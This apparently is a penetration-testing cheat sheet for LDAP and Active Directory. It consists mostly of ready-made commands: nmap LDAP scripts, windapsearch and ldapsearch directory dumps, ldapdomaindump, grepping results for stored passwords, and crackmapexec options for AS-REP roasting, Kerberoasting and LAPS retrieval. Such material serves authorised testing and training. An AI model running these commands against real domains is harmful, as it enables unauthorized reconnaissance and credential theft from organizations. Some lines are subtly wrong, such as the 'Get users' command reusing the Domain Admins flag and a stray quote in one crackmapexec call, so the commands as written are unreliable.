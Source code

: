 ## Info

LDAP (Lightweight Directory Access Protocol) is a software protocol for enabling anyone to locate organizations, individuals, and other resources such as files and devices in a network, whether on the public Internet or on a corporate intranet. LDAP is a "lightweight" (smaller amount of code) version of Directory Access Protocol (DAP).

- GUI explorer's jxplorer


## Enumeration

`nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials`

```
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```

**Null Creds**

`ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"`

**With Creds**

`ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"`

*If you find something saying that the "bind must be completed" means that the credentials are incorrect.*

| Description               | LDAP Search Command                                                                                                    |
|---------------------------|------------------------------------------------------------------------------------------------------------------------|
| Extract everything        | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"`                  |
| Extract users              | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"`          |
| Extract computers          | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"`      |
| Extract my info            | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"` |
| Extract Domain Admins      | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"` |
| Extract Domain Users       | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"` |
| Extract Enterprise Admins  | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"` |
| Extract Administrators     | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"` |
| Extract Remote Desktop Group | `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"` |

To check if you have access to any password, use `grep` after executing one of the queries:
`<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"`

## Attacking

**Dumping**(if you have creds):

`ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]`


## Crackmapexec

```
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> --admin-count
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --asreproast ASREPROAST
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --groups
crackmapexec ldap'<IP> -u <User> -p <Password> --kdcHost <Host>  --kerberoasting KERBEROASTING
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --password-not-required
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --trusted-for-delegation
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --users

# Modules
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M get-desc-users
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M laps
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M ldap-signing
```
